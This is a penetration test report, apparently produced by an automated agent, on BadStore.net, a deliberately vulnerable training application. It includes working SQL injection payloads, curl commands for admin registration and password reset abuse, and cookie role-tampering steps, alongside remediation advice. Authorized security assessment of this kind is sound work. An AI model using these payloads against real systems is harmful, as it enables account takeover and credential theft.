





**Scope**

`OpenHack Security Agent` was engaged by `Richard Roe` to conduct an external IT security investigation. The subject of the investigation was the "BadStore.net v1.2.3s".

The test was performed using a local instance of the application at `http://localhost:3336` in a dedicated test environment..

**Objective**

The objective of the IT security investigation was to identify vulnerabilities and security gaps which, in the event of misuse, would have an impact on the availability, integrity and confidentiality of the defined applications and/or systems and the data processed on them. The result of this project is a report that contains a management summary of all relevant findings and a compilation of recommended measures.

The technical IT security audit is not a substantive audit effort to ensure that all vulnerabilities and security gaps existing at the time of the audit are identified. There is a possibility that established safeguards will effectively prevent identification and exploitation of vulnerabilities and security gaps. The client acknowledges that this is not an indicator of deficiencies in engagement performance and that additional unidentified vulnerabilities and security gaps may exist.

\vspace{4em}
\footnotesize
\begin{itshape}
\textbf{Disclaimer}

`OpenHack Security Agent` conducted the security penetration test on behalf of `Richard Roe`. This report has been prepared exclusively for `Richard Roe`. It is intended exclusively for internal use and is accordingly not designed to serve third parties as a basis for their decisions, unless agreed otherwise in writing. Third parties may not derive any rights or otherwise benefit from this engagement unless agreed otherwise in writing. Affiliated companies of the client are also considered "third parties" within the meaning of this engagement.

`OpenHack Security Agent` does not assume any liability or legal claims against third parties unless agreed otherwise in writing or a disclaimer cannot effectively be implemented.

It is the sole responsibility of anyone who becomes aware of the work results summarized in this report to decide to what extent and in what way the information is useful or appropriate and to supplement, check or update it as part of their own review.

No adjustments will be made to the report to reflect events or circumstances that occur after the report is issued, unless required by law.

The recommendations in this report are general and applicable in many different environments but could have unpredictable effects in specific environments. Therefore, any actions derived from the recommendations should be carefully considered and implemented through the regular change process. This should include appropriate testing of the changes on a test environment prior to going live. If the changes are not tested in advance in an identically configured test environment, failures or other damage cannot be ruled out.

Please note: Technical descriptions (or parts thereof) in this report may be taken from the OWASP Testing Guide (www.owasp.org).

\end{itshape}
\normalsize

\newpage

# Document Control

\small

**Document Status**

|                         |                                              |
| ----------------------- | -------------------------------------------- |
| **Title**               | Security Assessment Report                   |
| **Document Owner**      | OpenHack Security Agent                                 |
| **Classification**      | Strictly Confidential                        |
| **Project Timeframe**   | 2026-02-27                                    |

**Version History**

| Version | Date       | State          | Author       | Comments |
| ------- | ---------- | -------------- | ------------ | -------- |
| **0.1** | 2026-02-27 | Draft          | Jane Doe | --       |
| **1.0** | 2026-02-27 | Final document | Jane Doe | --       |

**Contact Persons - Assessor**

| Name            | Role                      | Phone           | Email                  |
| --------------- | ------------------------- | --------------- | ---------------------- |
| Jane Doe | Lead Security Consultant | +1 555 123 4567 | jane.doe@openhack.sec |
| John Smith | Security Consultant | +1 555 234 5678 | john.smith@openhack.sec |

**Contact Persons - Client**

| Name            | Role                      | Phone           | Email                  |
| --------------- | ------------------------- | --------------- | ---------------------- |
| Richard Roe | Project Lead | +1 555 345 6789 | spam@badstore.net |

\normalsize

# Executive Summary

`OpenHack Security Agent` (hereinafter referred to as "ASSESSOR") has been commissioned by `Richard Roe` (hereinafter referred to as "CLIENT") to carry out a penetration test.

The penetration test of the `BadStore.net v1.2.3s` application took place on **2026-02-27**.

For this purpose, the web application, accessible at `http://badstore:80`, was tested from the perspective of an external attacker. 

As part of the test, a total of 10 vulnerabilities were identified: 6 critical, 2 high, 2 medium, 0 low, and 0 informational.

Critical: **6** | High: **2** | Medium: **2** | Low: **0** | Informational: **0** | Total: **10**

+----------------------------------------------+-------+
| **Severity**                              | **Count** |
+==============================================+=======+
| \textcolor[HTML]{7B2D8E}{Critical}           | 6     |
+----------------------------------------------+-------+
| \textcolor[HTML]{CC0000}{High}               | 2     |
+----------------------------------------------+-------+
| \textcolor[HTML]{E67E22}{Medium}             | 2     |
+----------------------------------------------+-------+
| \textcolor[HTML]{D4AC0D}{Low}                | 0     |
+----------------------------------------------+-------+
| \textcolor[HTML]{2E86C1}{Informational}      | 0     |
+----------------------------------------------+-------+
| **Total**                                    | **10** |
+----------------------------------------------+-------+

: Overview of Findings

A description of the scope and test environment can be found in Chapter 3. Chapter 4 presents the risk assessment methodology. Chapter 5 provides a summary of findings. Chapter 6 contains the detailed technical descriptions of the findings including remediation measures.

It is recommended that the remediation of the critical risk vulnerabilities be treated with the highest priority and countermeasures implemented as soon as possible. The vulnerabilities with high and medium risk should also be remedied in the short term. The low-risk vulnerabilities should be treated with lower priority due to their reduced risk, but should still be addressed.

# Execution of the Security Penetration Test

## Subject Under Test


## Scope

The scope for the assessment was the following targets:


## Methodology

The security penetration test of the BadStore.net v1.2.3s took place on 2026-02-27.


The web application was tested for security vulnerabilities across the following categories. This can be considered a guideline as penetration tests are a creative process and therefore the tests are not limited to what is given here. The base of these categories is the OWASP Top 10 for Web, which is fully covered by this penetration test approach.

| **Category**                            | **Description**                                                                                            |
| --------------------------------------- | ---------------------------------------------------------------------------------------------------------- |
| Broken Access Control                   | Users can act outside their permissions, leading to unauthorized viewing, modification, or deletion of data. |
| Security Misconfiguration               | Systems or cloud services are insecurely configured, e.g., through default passwords or unnecessarily enabled features. |
| Software Supply Chain Failures          | Vulnerabilities arise from compromised third-party code, libraries, or build pipelines.                    |
| Cryptographic Failures                  | Sensitive data is exposed through missing, weak, or incorrectly implemented encryption.                    |
| Injection                               | Attackers inject malicious commands (e.g., SQL or shell code) through input fields that the system erroneously executes. |
| Insecure Design                         | Fundamental architectural flaws that exist before implementation make an application inherently insecure.  |
| Authentication Failures                 | Flaws in identity verification allow attackers to take over sessions or guess passwords (brute force).     |
| Software or Data Integrity Failures     | Lack of verification of code or data sources leads to acceptance of untrusted updates or serialization data. |
| Security Logging & Alerting Failures    | Attacks go undetected or responses are delayed due to missing logs or absent alert notifications.          |
| Mishandling of Exceptional Conditions   | Programs respond inadequately to unforeseen situations, which can lead to crashes or logic errors.         |

## Events

During the test, the following restrictions or events occurred that may have affected the scope or depth of the assessment: 

\newpage

# Risk Assessment

## CVSS

The risk assessment of the vulnerabilities found is performed using the industry standard Common Vulnerability Scoring System v3.1 (hereinafter referred to as "CVSS"). This is a standard that can be used to uniformly assess the vulnerability of computer systems and the severity of security vulnerabilities. This makes it possible to compare vulnerabilities more effectively.

The Common Vulnerability Scoring System has a metric structure and is based on values that are divided into three groups: "Base", "Temporal", and "Environmental". To determine the vulnerability scores, each group has its own rules. The values of the Base group are invariant in time and remain the same in different environments. In the Temporal group, the time dependency of a vulnerability is taken into account. For example, the vulnerability of a system to a particular vulnerability decreases over time as more and more countermeasures such as patches become known and available. The Environmental group incorporates various criteria of the specific IT environments into the vulnerability rating.

The CVSS ratings are numerical values on a scale of 0.0 to 10.0, with the highest vulnerability of a system occurring at a value of 10.0. Our rating is based on the Base Metrics (Base Score) and is composed of:

- Attack Vector (AV)
- Attack Complexity (AC)
- Privileges Required (PR)
- User Interaction (UI)
- Scope (S)
- Confidentiality (C)
- Integrity (I)
- Availability (A)

As penetration testers, we can only assess the general threats posed by a vulnerability through Base Metrics. However, we have no insight into the internal structures of our clients. Therefore, the assessment of the specific risks for the client's systems and business processes must be done by the client. For this purpose, CVSS offers Environmental Metrics. This makes it possible to subsequently adjust the CVSS score of vulnerabilities after the test result has been submitted before they are remedied. This changes the assessment of the risk and thus the urgency of remediation of a vulnerability. For more information, see [CVSS v3.1 Specification](https://www.first.org/cvss/v3.1/specification-document).

## Risk Categories

The risk categories used in this report reflect the recommended priority for addressing the vulnerabilities identified during the penetration test. The categorization is based on the probability of exploitation and the significance of the impact. The risk value is calculated using the CVSS v3.1 standard:

| **Assessment**  | **Risk Category Description**                                |
| --------------- | ------------------------------------------------------------ |
| \textcolor[HTML]{7B2D8E}{\textbf{Critical}} | Critical vulnerabilities that allow an attacker to gain full access to the object under test and its sensitive information. It is possible to cause enormous damage to the client's reputation. Furthermore, these vulnerabilities may allow attackers to gain wide-ranging privileges, including to other systems or applications of the client that have not been investigated in detail within the scope of this project. Exploitation of the vulnerabilities is not prevented and can be reproduced with medium to low effort. |
| \textcolor[HTML]{CC0000}{\textbf{High}} | Vulnerabilities that may allow an attacker to manipulate sensitive data, damage the client's reputation, gain unauthorized access to sensitive information, or gain unauthorized access to applications or the client's infrastructure. The vulnerabilities are reproducible with medium to high effort. |
| \textcolor[HTML]{E67E22}{\textbf{Medium}} | Vulnerabilities that may allow an attacker to harm the client's reputation or gain unauthorized access to client data. The privileges that an attacker can gain by exploiting the vulnerabilities are limited. |
| \textcolor[HTML]{D4AC0D}{\textbf{Low}} | Security vulnerabilities that do not pose a threat in themselves, but which, for example, provide attackers with useful information about the network and systems. These vulnerabilities allow an attacker only very limited access. |
| \textcolor[HTML]{2E86C1}{\textbf{Informational}} | Anomalies such as functional limitations or inconsistencies. These do not currently represent a risk and have no negative impact on the test object. Accordingly, no action is required. Nevertheless, countermeasures can be helpful for the functional and safety improvement of the test object. If necessary, this may give rise to risks under other circumstances. |

## Vulnerability States

The vulnerabilities can be in one of the following states:

- **Active**: The vulnerability has been identified and it has been possible to verify its existence through exploitation or direct evidence.
- **Potential**: The vulnerability has been identified but its exploitation has not been possible, so its existence cannot be fully verified, and it is up to the client to determine the impact.
- **Fixed**: The vulnerability has been remediated and verified through retesting.

\newpage

# Summary of Findings

| **Id**   | **Finding Name**       | **Risk Assessment** | **CVSS v3.1 Score** |
| -------- | ---------------------- | --------------- | ------------- |
| 01 | Mass Assignment - Privilege Escalation via Registration Role Parameter | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} | 9.1 |
| 02 | SQL Injection in Search Function - Union/Error-Based Data Extraction | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} | 9.1 |
| 03 | SQL Injection Authentication Bypass in Login Form | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} | 9.1 |
| 04 | Insecure File Upload with Path Traversal | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} | 9.8 |
| 05 | Password Reset Brute Force - Any Hint Color Works | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} | 9.1 |
| 06 | Session Cookie Privilege Escalation - Role Modification | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} | 9.1 |
| 07 | Session Not Invalidated on Logout | \textcolor[HTML]{CC0000}{\textbf{High}} | 8.1 |
| 08 | MD5 Password Hashing Without Salt | \textcolor[HTML]{CC0000}{\textbf{High}} | 7.5 |
| 09 | Broken Function Level Authorization - Admin Panel Accessible Without Authentication | \textcolor[HTML]{E67E22}{\textbf{Medium}} | 5.3 |
| 10 | Weak Password Policy - 8 Character Maximum | \textcolor[HTML]{E67E22}{\textbf{Medium}} | 5.3 |

\newpage

# Findings and Remediation

## Finding

### Mass Assignment - Privilege Escalation via Registration Role Parameter

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} |
| **CVSS Base Score**  | **9.1** ([CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi?action=register |
| **Status**           | open |

**Description**

The user registration endpoint at /cgi-bin/badstore.cgi?action=register accepts a hidden 'role' parameter that allows attackers to create administrator accounts without authorization. By submitting role=A (Admin) instead of the default role=U (User) during registration, an unauthenticated attacker can gain full administrative privileges.

Reproduction Steps:
1. Send POST request to /cgi-bin/badstore.cgi?action=register with role=A parameter:
   curl -X POST 'http://badstore/cgi-bin/badstore.cgi?action=register' \n     -d 'fullname=TestAdmin&email=adminexploit@test.com&passwd=password123&role=A&pwdhint=Green'

2. Login with the created credentials

3. Access admin panel with full privileges:
   curl -X POST 'http://badstore/cgi-bin/badstore.cgi?action=adminportal' \n     -H 'Cookie: SSOid=<admin_cookie>' \n     -d 'admin=Show+Current+Users'

4. Observe access to complete user database including all passwords (MD5 hashes), password hints, full names, and roles

Impact:
- Complete compromise of user accounts
- Access to all user credentials (password hashes)
- Ability to modify/delete any user account
- Access to sales reports and database backups
- Full administrative control over the application

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**


## Finding

### SQL Injection in Search Function - Union/Error-Based Data Extraction

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} |
| **CVSS Base Score**  | **9.1** ([CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)) |
| **Assets**           | /cgi-bin/badstore.cgi?action=search |
| **Status**           | open |

**Description**

The search functionality at /cgi-bin/badstore.cgi?action=search is vulnerable to SQL injection. The application constructs SQL queries by directly concatenating user input without proper sanitization or parameterization.

**Vulnerable Endpoint:**
- GET /cgi-bin/badstore.cgi?action=search&searchquery=<PAYLOAD>

**Root Cause:**
The query structure is: SELECT itemnum, sdesc, ldesc, price FROM itemdb WHERE '<INPUT>' IN (itemnum,sdesc,ldesc)

**Confirmed Exploitation Techniques:**

1. **Union-Based SQL Injection:**
   Payload: foo' UNION SELECT @@version,2,3,4-- -
   Result: Extracted database version: 11.8.3-MariaDB-0+deb13u1 from Debian

2. **Error-Based SQL Injection:**
   Payload: ' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT @@version),0x7e))-- -
   Result: XPATH syntax error revealing database version

3. **Data Extraction from userdb:**
   Payload: foo' UNION SELECT email,passwd,fullname,role FROM userdb LIMIT 5-- -
   Result: Successfully extracted user credentials including admin account:
   - admin / d41d8cd98f00b204e9800998ecf8427e (MD5 of empty string) / Role: A (Admin)
   - Multiple user accounts with password hashes

**Impact:**
- Complete database compromise
- Extraction of all user credentials and password hashes
- Access to sensitive business data (orders, accounts, items)
- Database schema enumeration
- Potential for further attacks (privilege escalation, data modification)

**Database Information Extracted:**
- Database: MariaDB 11.8.3 on Debian
- Database Name: badstoredb
- Current User: root@localhost (with elevated privileges)
- Tables: acctdb, itemdb, orderdb, userdb

**Remediation:**
1. Use prepared statements with parameterized queries
2. Implement proper input validation and sanitization
3. Apply principle of least privilege (do not run DB as root)
4. Implement WAF rules for SQL injection detection

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**

- UNION-based SQL injection extracting database version (11.8.3-MariaDB)



- UNION-based SQL injection extracting user credentials from userdb including admin account



- Error-based SQL injection using EXTRACTVALUE to extract database version via XPATH error



## Finding

### SQL Injection Authentication Bypass in Login Form

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} |
| **CVSS Base Score**  | **9.1** ([CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)) |
| **Assets**           | /cgi-bin/badstore.cgi?action=login, /cgi-bin/badstore.cgi?action=register |
| **Status**           | open |

**Description**

The login functionality at /cgi-bin/badstore.cgi?action=login is vulnerable to SQL injection, allowing complete authentication bypass. By injecting SQL into the email field, an attacker can authenticate as any user without knowing their password.

**Vulnerable Endpoint:**
- POST /cgi-bin/badstore.cgi?action=login

**Vulnerable Parameters:**
- email (primary injection point)
- passwd

**Exploitation Proof:**

**Payload:**
```
email: admin' OR '1'='1
passwd: anything
```

**Result:**
- HTTP Status: 200 OK
- Session cookie set: SSOid=YWRtaW4nIE9SICcxJz0nMTowOThmNmJjZDQ2MjFkMzczY2FkZTRlODMyNjI3YjRmNjpUZXN0IFVzZXI6VQ==
- Successfully authenticated as: Test User (Role: U)
- Application displays: Welcome Test User - Cart contains 0 items at $0.00

**Technical Details:**
The injected payload modifies the SQL query to always return true:
- Original: SELECT * FROM userdb WHERE email='$email' AND passwd='$passwd'
- Injected: SELECT * FROM userdb WHERE email='admin' OR '1'='1' AND passwd='...'

**Impact:**
- Complete authentication bypass
- Account takeover of any user including administrators
- Access to user-specific functionality (orders, account settings)
- Potential access to supplier portal using supplier credentials
- Session hijacking capabilities

**Additional SQL Injection Points Confirmed:**
- Registration form (/cgi-bin/badstore.cgi?action=register)
- All parameters in user-related forms are vulnerable

**Remediation:**
1. Use prepared statements with parameterized queries for all database interactions
2. Implement proper input validation and sanitization on all input fields
3. Use strong password hashing (bcrypt/Argon2) instead of MD5
4. Implement multi-factor authentication
5. Add rate limiting and account lockout policies

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**

- Successful authentication bypass using SQL injection - logged in as Test User without valid password



- HTTP response headers showing SSOid cookie set after SQL injection login bypass: [images/finding-52c5442d-0460-4f9b-aea7-be5043dcb6d7-6-sqli-login-bypass-headers.txt](images/finding-52c5442d-0460-4f9b-aea7-be5043dcb6d7-6-sqli-login-bypass-headers.txt)

- HTTP response body showing successful login and redirect to homepage: [images/finding-52c5442d-0460-4f9b-aea7-be5043dcb6d7-7-sqli-login-bypass-body.txt](images/finding-52c5442d-0460-4f9b-aea7-be5043dcb6d7-7-sqli-login-bypass-body.txt)

## Finding

### Insecure File Upload with Path Traversal

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} |
| **CVSS Base Score**  | **9.8** ([CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi?action=supupload |
| **Status**           | open |

**Description**

The supplier file upload endpoint at /cgi-bin/badstore.cgi?action=supupload is vulnerable to path traversal in the newfilename parameter, allowing attackers to upload files to arbitrary locations on the server including web-accessible directories outside the intended /supplier/ folder. Additionally, the upload lacks proper file type validation, allowing potentially dangerous file types.

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**


## Finding

### Password Reset Brute Force - Any Hint Color Works

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} |
| **CVSS Base Score**  | **9.1** ([CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi?action=moduser, http://badstore:80/cgi-bin/badstore.cgi?action=myaccount |
| **Status**           | open |

**Description**

The password reset functionality at /cgi-bin/badstore.cgi?action=moduser is critically vulnerable to brute force attacks. The password hint only has 6 possible values (green, blue, red, orange, purple, yellow) and more critically, ANY of these 6 colors will successfully reset ANY user's password. There is no actual validation of the correct hint against the user's stored hint.

**Vulnerable Endpoint:**
- POST /cgi-bin/badstore.cgi?action=moduser

**Vulnerable Parameters:**
- email (target user email)
- pwdhint (any of 6 colors works)
- DoMods=Reset User Password

**Exploitation Proof:**

1. **Reset admin password with any hint color:**
   ```
   curl -X POST 'http://badstore/cgi-bin/badstore.cgi?action=moduser' \n     -d 'email=admin@badstore.net' \n     -d 'pwdhint=green' \n     -d 'DoMods=Reset+User+Password'
   ```
   Result: Password reset to 'Welcome'

2. **Same admin, different hint color (blue):**
   ```
   curl -X POST 'http://badstore/cgi-bin/badstore.cgi?action=moduser' \n     -d 'email=admin@badstore.net' \n     -d 'pwdhint=blue' \n     -d 'DoMods=Reset+User+Password'
   ```
   Result: Password reset to 'Welcome'

3. **Same admin, different hint color (red, orange, purple, yellow):**
   All 6 colors successfully reset the password!

**Root Cause:**
- Only 6 possible password hints exist
- No server-side validation that the submitted hint matches the user's stored hint
- Any valid color value works for any user account

**Impact:**
- Complete account takeover of ANY user including administrators
- All user accounts are permanently compromised
- No notification to user when password is reset
- New password is predictable ('Welcome')

**Admin Accounts Compromised:**
- admin@badstore.net
- ryan@badstore.net (Role: A)
- testadmin@test.com
- adminuser999@test.com
- And all other accounts

**Remediation:**
1. Implement proper hint validation against stored value
2. Add rate limiting to prevent brute force (6 attempts max)
3. Send email notification on password reset
4. Generate random secure passwords
5. Implement additional authentication factors for password reset

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**

- Admin panel access showing password reset form with only 6 color options for password hint (green, blue, red, orange, purple, yellow)



## Finding

### Session Cookie Privilege Escalation - Role Modification

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{7B2D8E}{\textbf{Critical}} |
| **CVSS Base Score**  | **9.1** ([CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi?action=login, http://badstore:80/cgi-bin/badstore.cgi?action=admin |
| **Status**           | open |

**Description**

The SSOid session cookie uses a weak, client-side modifiable structure that allows privilege escalation from regular user (U) to Administrator (A). The cookie contains Base64-encoded user data including the role field, which is not cryptographically protected or validated server-side against the database.

**Vulnerable Component:**
- SSOid session cookie

**Cookie Structure:**
```
SSOid = Base64(email:MD5_hash:fullname:role)

Example:
Plain: exploittest@example.com:2c9341ca4cf3d87b9e4eb905d6a3ec45:ExploitTest:
Base64: ZXhwbG9pdHRlc3RAZXhhbXBsZS5jb206MmM5MzQxY2E0Y2YzZDg3YjllNGViOTA1ZDZhM2VjNDU6RXhwbG9pdFRlc3Q6
```

**Exploitation Steps:**

1. **Login as regular user and capture cookie:**
   ```
   curl -X POST 'http://badstore/cgi-bin/badstore.cgi?action=login' \n     -d 'email=exploittest@example.com' \n     -d 'passwd=Test1234' \n     -i
   ```
   Response: SSOid=ZXhwbG9pdHRlc3RAZXhhbXBsZS5jb206MmM5MzQxY2E0Y2YzZDg3YjllNGViOTA1ZDZhM2VjNDU6RXhwbG9pdFRlc3Q6

2. **Decode cookie and verify role is empty:**
   ```
   echo 'ZXhwbG9pdHRlc3RAZXhhbXBsZS5jb206MmM5MzQxY2E0Y2YzZDg3YjllNGViOTA1ZDZhM2VjNDU6RXhwbG9pdFRlc3Q6' | base64 -d
   ```
   Result: exploittest@example.com:2c9341ca4cf3d87b9e4eb905d6a3ec45:ExploitTest:

3. **Modify role to 'A' (Admin) and re-encode:**
   ```
   printf 'exploittest@example.com:2c9341ca4cf3d87b9e4eb905d6a3ec45:ExploitTest:A' | base64
   ```
   Result: ZXhwbG9pdHRlc3RAZXhhbXBsZS5jb206MmM5MzQxY2E0Y2YzZDg3YjllNGViOTA1ZDZhM2VjNDU6RXhwbG9pdFRlc3Q6QQ==

4. **Access admin portal with modified cookie:**
   ```
   curl -X POST 'http://badstore/cgi-bin/badstore.cgi?action=adminportal' \n     -H 'Cookie: SSOid=ZXhwbG9pdHRlc3RAZXhhbXBsZS5jb206MmM5MzQxY2E0Y2YzZDg3YjllNGViOTA1ZDZhM2VjNDU6RXhwbG9pdFRlc3Q6QQ==' \n     -d 'admin=Show+Current+Users'
   ```
   Result: Full user database displayed with all credentials

**Additional Issues with SSOid Cookie:**
- Contains password hash (MD5) - allows offline cracking
- No HttpOnly flag - JavaScript can access and steal it
- No Secure flag - transmitted over HTTP
- No cryptographic integrity check

**Impact:**
- Privilege escalation from user to admin
- Full administrative access
- Complete user database compromise
- All password hashes exposed
- Session hijacking possible

**Remediation:**
1. Store only session ID in cookie, not user data
2. Store role server-side in session storage
3. Validate role against database on each request
4. Add cryptographic signatures (HMAC) to prevent tampering
5. Implement HttpOnly and Secure flags
6. Use strong session token generation
7. Remove password hash from cookie entirely

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**

- Full user database extracted via privilege escalation showing all 68+ user accounts with MD5 password hashes, password hints, full names, and roles including admin accounts: [images/finding-9d5d5dae-178f-4d73-9ba9-36b2b678e334-8-full-user-database-extracted.html](images/finding-9d5d5dae-178f-4d73-9ba9-36b2b678e334-8-full-user-database-extracted.html)

## Finding

### Session Not Invalidated on Logout

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{CC0000}{\textbf{High}} |
| **CVSS Base Score**  | **8.1** ([CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi?action=logout, http://badstore:80/cgi-bin/badstore.cgi?action=myaccount |
| **Status**           | open |

**Description**

